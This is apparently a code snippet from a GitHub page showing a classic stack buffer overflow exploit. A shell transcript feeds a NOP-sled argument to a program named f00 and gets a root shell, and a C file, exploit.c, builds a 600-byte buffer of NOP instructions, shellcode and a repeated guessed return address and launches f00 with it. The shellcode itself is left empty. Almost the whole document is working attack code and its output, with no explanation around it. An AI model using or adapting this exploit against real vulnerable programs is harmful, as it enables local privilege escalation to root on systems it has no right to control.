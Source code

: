 ```bash
$ ./f00  `python3 -c 'print "\x90"*22+"shellcode"'`
sh-2.05a# whoami
root
sh-2.05a#
```

`exploit.c`

```cpp
#include <stdlib.h>

char shellcode[] = "";

unsigned long sp(void)         // This is just a little function
{ __asm__("movl %esp, %eax");} // used to return the stack pointer

int main(int argc, char *argv[])
{
  int i, offset;
  long esp, ret, *addr_ptr;
  char *buffer, *ptr;

  offset = 0;                 // Use an offset of 0
  esp = sp();                 // Put the current stack pointer into esp
  ret = esp - offset;         // We want to overwrite the ret address

  printf("Stack pointer (ESP) : 0x%x\n", esp);
  printf("    Offset from ESP : 0x%x\n", offset);
  printf("Desired Return Addr : 0x%x\n", ret);

// Allocate 600 bytes for buffer (on the heap)
  buffer = malloc(600);

// Fill the entire buffer with the desired ret address
  ptr = buffer;
  addr_ptr = (long *) ptr;
  for(i=0; i < 600; i+=4)
  { *(addr_ptr++) = ret; }


// Fill the first 200 bytes of the buffer with NOP instructions
  for(i=0; i < 200; i++)
  { buffer[i] = '\x90'; }

// Put the shellcode after the NOP sled
  ptr = buffer + 200;
  for(i=0; i < strlen(shellcode); i++)
  { *(ptr++) = shellcode[i]; }

// End the string
  buffer[600-1] = 0;

// Now call the program ./f00 with our crafted buffer as its argument
  execl("./f00", "f00", buffer, 0);

// Free the buffer memory
  free(buffer);

  return 0;
}
```
